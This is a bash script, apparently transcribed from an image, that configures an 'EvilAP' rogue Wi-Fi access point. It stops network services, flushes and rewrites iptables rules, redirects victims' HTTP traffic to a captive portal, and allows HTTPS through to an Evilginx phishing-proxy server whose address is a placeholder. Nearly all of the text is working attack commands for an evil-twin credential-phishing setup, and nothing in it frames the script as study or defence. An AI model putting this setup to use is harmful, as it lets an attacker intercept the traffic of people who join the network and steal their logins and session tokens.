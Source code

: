 ```sh
#!/bin/bash

# Colors for output
RED='\033[0;31m'
GREEN='\033[0;32m'
YELLOW='\033[1;33m'
NC='\033[0m' # No Color

echo -e "${GREEN}[+] Starting EvilAP Setup${NC}"

# Check if running as root
if [[ $EUID -ne 0 ]]; then
   echo -e "${RED}[-] This script must be run as root${NC}"
   exit 1
fi

# Configuration
INTERFACE="wlan0"  # Change this to your wireless interface
AP_IP="192.168.45.1"
INTERNET_INTERFACE="eth0"  # Change this to your internet-connected interface
# IP del servidor real de alux.cc (reemplaza con la IP correcta si es diferente)
ALUX_CC_IP="<IP EVILGINX>"

echo -e "${YELLOW}[*] Configuring interface ${INTERFACE}${NC}"

# Stop conflicting services
systemctl stop NetworkManager
systemctl stop wpa_supplicant

# Configure wireless interface
ifconfig $INTERFACE down
ifconfig $INTERFACE up
ifconfig $INTERFACE $AP_IP netmask 255.255.255.0

# Enable IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# Clear existing iptables rules
iptables -F
iptables -t nat -F
iptables -t mangle -F

echo -e "${YELLOW}[*] Setting up iptables rules${NC}"

# NAT rules for internet access (optional)
iptables -t nat -A POSTROUTING -o $INTERNET_INTERFACE -j MASQUERADE
iptables -A FORWARD -i $INTERFACE -o $INTERNET_INTERFACE -j ACCEPT
iptables -A FORWARD -i $INTERNET_INTERFACE -o $INTERFACE -m state --state RELATED,ESTABLISHED -j ACCEPT

# === CAPTIVE PORTAL RULES - MODIFICADAS ===
# 1. Redirigir solo HTTP (puerto 80) al portal cautivo. Esto evita el error SSL.
iptables -t nat -A PREROUTING -i $INTERFACE -p tcp --dport 80 -j DNAT --to-destination $AP_IP:80

# 2. PERMITIR el tráfico HTTPS (puerto 443) hacia la IP real de evilginx.alux.cc para que la redirección funcione.
iptables -t nat -I PREROUTING -i $INTERFACE -p tcp -d $ALUX_CC_IP --dport 443 -j ACCEPT
# También permitir HTTP por si acaso
iptables -t nat -I PREROUTING -i $INTERFACE -p tcp -d $ALUX_CC_IP --dport 80 -j ACCEPT

# 3. (Opcional) Bloquear otros intentos de HTTPS para una redirección más limpia
# iptables -A FORWARD -i $INTERFACE -p tcp --dport 443 -j DROP

```